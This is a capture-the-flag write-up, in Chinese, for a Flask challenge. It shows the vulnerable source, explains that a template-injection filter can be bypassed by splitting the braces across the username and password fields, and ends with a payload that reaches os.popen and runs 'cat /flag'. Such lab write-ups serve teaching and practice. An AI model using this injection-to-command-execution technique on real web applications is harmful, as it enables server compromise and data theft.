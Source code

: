 # X迪的pyp语言

F12，发现了`hint.php`，获得源码
```python
import re
from flask import Flask, render_template_string, request

import templates.templates as tp

app = Flask(__name__)

def isParamLegal(param):
    return (re.search(r'{{.*}}|{%.*%}', param, re.M|re.S) is None)

@app.route('/') 
@app.route('/index.php') 
def main():
    indexTp = tp.head + tp.index + tp.foot
    return render_template_string(indexTp)

@app.route('/login.php', methods=["POST"])
def login():
    username = request.form.get('username')
    password = request.form.get('password')

    if(isParamLegal(username) and isParamLegal(password)):
        message = "Username:" + username + "&" + "Password:" + password
    else:
        message = "参数不合法"

    loginTmpTp = tp.head + tp.login + tp.foot
    loginTp = loginTmpTp % message

    return render_template_string(loginTp)

@app.route("/hint.php")
def hint():
    with open(__file__, "rb") as f:
        file = f.read()
    return file

if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

使用了`render_template_string`，且值可控，存在`SSTI`
虽然有验证，其中对于`username`和`password`的合法性验证的逻辑，写的有问题。
其验证只判断了单个值是否存在`SSTI`

可以将双花括号分别放置在`username`和`password`里面，使用单引号闭合中间内容

提交
```
username={{'&password='.__class__}}
```
![](https://i.loli.net/2020/11/18/HP1uN8WlY23IALS.png)
成功绕过

提交
```
username={{'&password='.__class__.__base__.__subclasses__()[132].__init__.__globals__['popen']("cat /flag").read()}}
```